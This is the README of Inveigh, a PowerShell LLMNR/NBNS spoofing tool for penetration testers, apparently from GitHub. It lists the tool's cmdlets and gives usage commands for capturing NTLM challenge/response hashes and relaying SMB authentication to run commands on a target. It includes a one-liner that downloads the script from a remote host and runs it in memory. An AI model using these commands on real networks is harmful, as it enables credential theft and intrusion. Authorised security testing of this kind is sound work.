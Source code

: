 # Inveigh
Inveigh is a Windows PowerShell LLMNR/NBNS spoofer designed to assist penetration testers that find themselves limited to a Windows system. This can commonly occur while performing standard post exploitation, phishing attacks, USB drive attacks, VLAN pivoting, or simply being restricted to a Windows system as part of client imposed restrictions.

# Requirements
Tested minimums are PowerShell 2.0 and .NET 3.5

# Notes
1. Currently supports IPv4 LLMNR/NBNS spoofing and HTTP/HTTPS/SMB NTLMv1/NTLMv2 challenge/response capture.
2. LLMNR/NBNS spoofing is performed through sniffing and sending with raw sockets. 
3. SMB challenge/response captures are performed by sniffing over the host system's SMB service.
4. HTTP challenge/response captures are performed with a dedicated listener.
5. The local LLMNR/NBNS services do not need to be disabled on the host system. 
6. LLMNR/NBNS spoofer will point victims to host system's SMB service, keep account lockout scenarios in mind.
7. Kerberos should downgrade for SMB authentication due to spoofed hostnames not being valid in DNS.
8. Ensure that the LMMNR,NBNS,SMB,HTTP ports are open within any local firewall on the host system.
9. If you copy/paste challenge/response captures from output window for password cracking, remove carriage returns.
10. SMB relay support is experimental at this point, use caution if employing on a pen test.

# Usage
Obtain an elevated administrator or SYSTEM shell and use a method to load the module

To import with Import-Module:  
Import-Module ./Inveigh.ps1

To import with dot source method:  
. ./Inveigh.ps1

To load into memory using Invoke-Expression:  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")

To execute with default settings:  
Invoke-Inveigh

To load and execute with one line:    
Import-Module ./Inveigh.ps1;Invoke-Inveigh

To execute with features enabled/disabled:   
Invoke-Inveigh -IP 'local IP' -SpoofIP 'local or remote IP' -LLMNR Y/N -NBNS Y/N -NBNSTypes 00,03,20,1B -HTTP Y/N -HTTPS Y/N -SMB Y/N -Repeat Y/N -ConsoleOutput Y/N -FileOutput Y/N -OutputDir 'valid folder path'

To execute with SMB relay enabled:  
Invoke-Inveigh -SMBRelay Y -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"

Use 'Get-Help -parameter * Invoke-Inveigh' for a full list of parameters

# Cmdlets
Invoke-Inveigh - Start Inveigh with or without parameters  
Get-Inveigh - Get queued console output  
Get-InveighLog - Get log entries  
Get-InveighNTLM - Get all captured challenge/response hashes  
Get-InveighNTLMv1 - Get captured NTLMv1 challenge/response hashes  
Get-InveighNTLMv2 - Get captured NTLMv2 challenge/response hashes  
Get-InveighStats - Get captured challenge/response counts  
Get-InveighHelp - List the cmdlets  
Watch-Inveigh - Enable real time console output  
Clear-Inveigh - Clear capture, log, smbrelay, and spoof lists  
Stop-Inveigh - Stop Inveigh  

# Screenshots
Invoke-Inveigh execution with real time console and file output enabled
![inveigh1](https://cloud.githubusercontent.com/assets/5897462/10326306/98bb11da-6c67-11e5-8c58-c9ed1107ec19.png)

Retrieval of captured NTLM2 challenge/response hashes with Get-InveighNTLMv2
![inveigh2](https://cloud.githubusercontent.com/assets/5897462/10326313/abde41d8-6c67-11e5-91b8-0c55271ba326.png)

HTTP to SMB Relay
![inveigh3](https://cloud.githubusercontent.com/assets/5897462/10326314/b2de540a-6c67-11e5-8627-fe5d27018dc3.png)

Module import and execution through one of Ben Turner and Dave Hardy's Metasploit Interactive PowerShell Session payloads
![inveigh5](https://cloud.githubusercontent.com/assets/5897462/10354363/53e73784-6d2d-11e5-8509-9bb7f3feab88.png)
